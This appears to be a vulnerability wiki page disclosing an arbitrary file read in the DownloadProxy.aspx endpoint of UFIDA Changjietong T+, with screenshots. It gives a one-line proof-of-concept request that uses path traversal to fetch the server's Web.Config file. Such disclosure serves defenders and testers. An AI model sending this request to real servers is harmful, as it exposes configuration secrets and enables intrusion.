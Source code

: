 # UFIDA Changjietong T+ DownloadProxy.aspx Any file reading vulnerability

## Vulnerability Description

UFIDA Changjietong T+ DownloadProxy.aspx file has an arbitrary file reading vulnerability. The attacker can obtain sensitive files on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA Changjietong T+</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2-20220903111940237.png)

Verify POC

```php
/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662017739558-82948854-e961-4934-8ac2-c29e660277b2.png)